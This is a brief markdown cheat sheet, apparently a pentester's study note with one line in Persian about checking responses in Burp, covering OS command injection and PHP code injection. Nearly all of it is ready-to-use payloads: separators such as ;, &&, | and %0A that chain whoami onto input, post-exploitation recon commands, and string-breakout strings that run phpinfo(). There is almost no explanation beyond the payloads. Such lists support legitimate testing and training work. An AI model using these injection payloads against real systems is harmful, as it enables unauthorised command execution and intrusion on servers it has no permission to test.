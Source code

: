# Remote Command Execution

## Concept
- باید از Burp برای بررسی Response استفاده کنیم


## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Useful commands
- ```pwd```
- ```uname```
- ```id```
- ```hostname```
- ```ps aux```

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

